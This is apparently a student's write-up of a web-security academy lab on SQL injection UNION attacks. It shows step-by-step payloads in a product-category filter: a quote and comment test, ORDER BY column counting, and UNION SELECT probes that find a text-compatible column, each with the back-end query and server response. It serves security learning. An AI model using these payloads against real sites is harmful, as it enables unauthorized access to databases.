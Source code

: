 # Lab: SQL injection UNION attack, finding a column containing text

- sqli: product category filter
- end goal: determine which columns are compatible with string data

### Analysis
- url: `https://0a11008d03b0377784e4dcdf00640037.web-security-academy.net/`

- front-end: `/filter?category=Lifestyle`
- back-end:
```sql
select * from products where category = 'Lifestyle' and released = 1
```

- check sqli vulnerability
- front-end: `/filter?category=Lifestyle'`
- back-end:
```sql
select * from products where category = 'Lifestyle'' and released = 1
'-- 500 Internal Server Error 
```

- front-end: `/filter?category=Lifestyle'--`
- back-end:
```sql
select * from products where category = 'Lifestyle'--' and released = 1
-- 200 OK: this website have a sqli vulnerability
```

- determine how many columns
- front-end: `/filter?category=Lifestyle' order by 3--`
- back-end:
```sql
select * from products where category = 'Lifestyle' order by 3--' and released = 1
-- 200 OK: this website have 3 columns
```

- determine how many strings which contain in columns
- front-end: `/filter?category=Lifestyle' union select 'text', null, null--`
- back-end:
```sql
select * from products where category = 'Lifestyle' union select 'text', null, null--' and released = 1
-- 500 Internal Server Error 
```
- you should change the position of text untill you see 200 OK like this
- front-end: `/filter?category=Lifestyle' union select null, 'text', null--`
- back-end:
```sql
select * from products where category = 'Lifestyle' union select null, 'text', null--' and released = 1
-- 200 OK: second column is a type of string
```
- you gonna see this message: `Make the database retrieve the string: 'd6KqGR'`
- chage `text` by useing this keyword `d6KqGR`
- front-end: `/filter?category=Lifestyle' union select null, 'd6KqGR', null--`
- back-end:
```sql
select * from products where category = 'Lifestyle' union select null, 'd6KqGR', null--' and released = 1
-- 200 OK: Congratulations, you solved the lab!
```

---